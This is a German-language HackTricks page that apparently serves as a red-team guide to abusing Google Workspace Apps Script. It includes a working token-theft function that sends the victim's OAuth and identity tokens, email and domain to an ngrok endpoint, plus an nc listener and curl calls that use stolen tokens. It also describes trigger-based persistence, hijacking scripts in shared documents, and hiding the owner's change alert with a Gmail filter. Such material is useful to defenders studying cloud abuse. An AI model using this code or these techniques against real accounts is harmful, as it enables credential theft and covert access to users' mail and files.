 # GWS - App Scripts

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## App Scripts

App Scripts sind **Code, der ausgelöst wird, wenn ein Benutzer mit Editorberechtigung auf das Dokument zugreift, mit dem das App-Skript verknüpft ist**, und nach **Akzeptieren der OAuth-Aufforderung**.\
Sie können auch so eingestellt werden, dass sie vom Besitzer des App-Skripts **zu einem bestimmten Zeitpunkt ausgeführt werden** (Persistenz).

### App-Skript erstellen

Es gibt mehrere Möglichkeiten, ein App-Skript zu erstellen, obwohl die häufigsten **aus einem Google-Dokument (jeder Art)** und als **eigenständiges Projekt** sind:

<details>

<summary>Erstellen eines containergebundenen Projekts aus Google Docs, Sheets oder Slides</summary>

1. Öffnen Sie ein Docs-Dokument, ein Sheets-Arbeitsblatt oder eine Slides-Präsentation.
2. Klicken Sie auf **Erweiterungen** > **Google Apps Script**.
3. Klicken Sie im Skript-Editor auf **Unbenanntes Projekt**.
4. Geben Sie Ihrem Projekt einen Namen und klicken Sie auf **Umbenennen**.

</details>

<details>

<summary>Erstellen eines eigenständigen Projekts</summary>

Um ein eigenständiges Projekt aus Apps Script zu erstellen:

1. Gehen Sie zu [`script.google.com`](https://script.google.com/).
2. Klicken Sie auf **Neues Projekt hinzufügen**.
3. Klicken Sie im Skript-Editor auf **Unbenanntes Projekt**.
4. Geben Sie Ihrem Projekt einen Namen und klicken Sie auf **Umbenennen**.

</details>

<details>

<summary>Erstellen eines eigenständigen Projekts aus Google Drive</summary>

1. Öffnen Sie [Google Drive](https://drive.google.com/).
2. Klicken Sie auf **Neu** > **Weitere** > **Google Apps Script**.

</details>

<details>

<summary>Erstellen eines containergebundenen Projekts aus Google Forms</summary>

1. Öffnen Sie ein Formular in Google Forms.
2. Klicken Sie auf Mehr more\_vert > **Skript-Editor**.
3. Klicken Sie im Skript-Editor auf **Unbenanntes Projekt**.
4. Geben Sie Ihrem Projekt einen Namen und klicken Sie auf **Umbenennen**.

</details>

<details>

<summary>Erstellen eines eigenständigen Projekts mithilfe des clasp-Befehlszeilentools</summary>

`clasp` ist ein Befehlszeilentool, mit dem Sie Apps-Script-Projekte von einem Terminal aus erstellen, abrufen/pushen und bereitstellen können.

Weitere Details finden Sie im [Leitfaden zur Befehlszeilenschnittstelle mit `clasp`](https://developers.google.com/apps-script/guides/clasp).

</details>

## App-Skript-Szenario <a href="#create-using-clasp" id="create-using-clasp"></a>

### Google-Tabelle mit App-Skript erstellen

Beginnen Sie mit der Erstellung eines App-Skripts, meine Empfehlung für dieses Szenario ist die Erstellung einer Google-Tabelle und gehen Sie zu **`Erweiterungen > App-Skripte`**, dies öffnet ein **neues App-Skript für Sie, das mit der Tabelle verknüpft ist**.

### Token-Leak

Um Zugriff auf das OAuth-Token zu gewähren, müssen Sie auf **`Dienste +` klicken und Berechtigungen wie** hinzufügen:

* **AdminDirectory**: Zugriff auf Benutzer und Gruppen des Verzeichnisses (wenn der Benutzer über ausreichende Berechtigungen verfügt)
* **Gmail**: Um auf Gmail-Daten zuzugreifen
* **Drive**: Um auf Drive-Daten zuzugreifen
* **Google Sheets API**: Damit es mit dem Trigger funktioniert

Um die **benötigten Berechtigungen** selbst zu ändern, können Sie zu den Projekteinstellungen gehen und aktivieren: **`"appsscript.json"-Manifestdatei im Editor anzeigen`.**
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

Um die Anfrage abzufangen, können Sie einfach Folgendes ausführen:
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
```html
Berechtigungen, die zur Ausführung des App-Skripts angefordert werden:

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Bei einer externen Anfrage wird die OAuth-Aufforderung auch um **Berechtigungen zur Erreichung externer Endpunkte** bitten.
{% endhint %}

### Trigger erstellen

Sobald die App gelesen wurde, klicken Sie auf **⏰ Trigger**, um einen Trigger zu erstellen. Wählen Sie als **Funktion** **`getToken`**, die bei Bereitstellung **`Head`** ausgeführt wird. Wählen Sie als Ereignisquelle **`Von Tabellenkalkulation`** und als Ereignistyp **`Beim Öffnen`** oder **`Beim Bearbeiten`** (je nach Bedarf) und speichern Sie.

Beachten Sie, dass Sie die **Ausführungen der App-Skripts im Register Ausführungen** überprüfen können, wenn Sie etwas debuggen möchten.

### Teilen

Um das **App-Skript** auszulösen, muss das Opfer eine Verbindung mit **Editorzugriff** herstellen.

{% hint style="success" %}
Das **Token**, das zur Ausführung des **App-Skripts** verwendet wird, ist das des **Erstellers des Triggers**, auch wenn die Datei von anderen Benutzern als Editor geöffnet wird.
{% endhint %}

### Missbrauch von "Mit mir geteilten" Dokumenten

{% hint style="danger" %}
Wenn Ihnen jemand ein Dokument mit App-Skripts und einem Trigger, der den Head des App-Skripts verwendet (keine feste Bereitstellung), geteilt hat, können Sie den App-Skript-Code ändern (zum Beispiel die Funktionen zum Stehlen von Token hinzufügen), darauf zugreifen und das **App-Skript wird mit den Berechtigungen des Benutzers ausgeführt, der das Dokument mit Ihnen geteilt hat**! (Beachten Sie, dass das OAuth-Token des Eigentümers die Zugriffsbereiche haben wird, die bei der Erstellung des Triggers angegeben wurden).

Eine **Benachrichtigung wird an den Skriptersteller gesendet, die darauf hinweist, dass jemand das Skript geändert hat** (Wie wäre es, Gmail-Berechtigungen zu verwenden, um einen Filter zu generieren, um den Alarm zu verhindern?)
{% endhint %}

{% hint style="success" %}
Wenn ein **Angreifer die Berechtigungsbereiche des App-Skripts ändert**, werden die Aktualisierungen **nicht auf das Dokument angewendet**, bis ein **neuer Trigger** mit den Änderungen erstellt wird. Daher wird ein Angreifer nicht in der Lage sein, das Token des Eigentümers mit mehr Bereichen zu stehlen, als er im Trigger festgelegt hat.
{% endhint %}

### Kopieren anstelle von Teilen

Wenn Sie einen Link erstellen, um ein Dokument zu teilen, wird ein Link ähnlich diesem erstellt: `https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
Wenn Sie das Ende **"/edit"** in **"/copy"** ändern, wird Google Sie fragen, ob Sie eine Kopie des Dokuments erstellen möchten:

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer es kopiert und darauf zugreift, werden sowohl die **Inhalte des Dokuments als auch die App-Skripts kopiert**, jedoch nicht die **Trigger**, daher wird **nichts ausgeführt**.

### Als Webanwendung teilen

Beachten Sie, dass es auch möglich ist, ein App-Skript als Webanwendung zu teilen (im Editor des App-Skripts als Webanwendung bereitstellen), aber es wird eine Warnung wie diese angezeigt:

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

Gefolgt von der **typischen OAuth-Aufforderung**, die um die benötigten Berechtigungen bittet.

### Testen

Sie können ein gesammeltes Token testen, um E-Mails aufzulisten, mit:

{% code overflow="wrap" %}
```
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
{% endcode %}

Kalender des Benutzers auflisten:
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script als Persistenz

Eine Option für Persistenz wäre es, **ein Dokument zu erstellen und einen Trigger für die Funktion getToken hinzuzufügen** und das Dokument mit dem Angreifer zu teilen, sodass jedes Mal, wenn der Angreifer die Datei öffnet, **der Token des Opfers exfiltriert wird**.

Es ist auch möglich, ein App Script zu erstellen und es alle X Zeit auszulösen (z. B. alle Minute, Stunde, Tag...). Ein Angreifer, der **Anmeldeinformationen kompromittiert hat oder eine Sitzung eines Opfers hat, könnte ein App Script-Zeit-Trigger einstellen und jeden Tag einen sehr privilegierten OAuth-Token leaken**:

Erstellen Sie einfach ein App Script, gehen Sie zu Triggers, klicken Sie auf Add Trigger und wählen Sie als Ereignisquelle Zeitgesteuert und wählen Sie die Optionen aus, die am besten zu Ihnen passen:

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
Dies wird eine Sicherheitswarnungs-E-Mail und eine Push-Nachricht an Ihr Mobilgerät erstellen, die Sie darüber informiert.
{% endhint %}

### Umgehung der unbestätigten Aufforderung für freigegebenes Dokument

Darüber hinaus, wenn jemand **ein Dokument mit Ihnen geteilt hat** und Ihnen **Bearbeitungszugriff** gewährt hat, können Sie **App Scripts innerhalb des Dokuments generieren** und der **BESITZER (Ersteller) des Dokuments wird der Besitzer des App Scripts** sein.

{% hint style="warning" %}
Das bedeutet, dass der **Ersteller des Dokuments als Ersteller jedes App Scripts** erscheinen wird, das jemand mit Bearbeitungszugriff darin erstellt.

Das bedeutet auch, dass das **App Script vom Workspace-Umfeld des Erstellers des Dokuments vertraut wird**.
{% endhint %}

{% hint style="danger" %}
Das bedeutet auch, dass wenn bereits ein **App Script existiert** und Personen **Zugriff gewährt haben**, jeder mit **Bearbeitungsberechtigung** auf das Dokument es **ändern und diesen Zugriff missbrauchen kann**.\
Um dies auszunutzen, benötigen Sie auch Personen, die das App Script auslösen. Ein nützlicher Trick ist es, das Skript als Web-App zu **veröffentlichen**. Wenn die **Personen**, die bereits **Zugriff** auf das App Script gewährt haben, die Webseite aufrufen, wird das App Script **ausgelöst** (dies funktioniert auch mit `<img>`-Tags).
{% endhint %}

